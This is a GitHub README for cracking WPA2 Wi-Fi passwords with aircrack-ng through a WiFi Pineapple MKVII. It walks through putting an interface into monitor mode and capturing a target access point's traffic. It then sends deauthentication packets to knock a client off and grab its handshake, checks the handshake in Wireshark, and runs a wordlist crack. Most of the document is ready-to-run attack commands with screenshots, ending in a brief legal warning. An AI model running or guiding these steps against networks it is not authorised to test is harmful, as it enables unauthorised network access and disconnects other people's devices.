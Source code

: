 # Crack_WiFI_WPA2-via-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Pre-requirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on a specific channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

As packets are sent, the number of captured frames from the target increases. This continues until the device eventually gets disconnected, allowing you to capture the WPA/WPA2 handshake.
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.

![Setup](Images/wireshark.png)

### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.
![Setup](Images/aircrack_com.png)



#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.

![Setup](Images/aircrack.png)

## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.

---



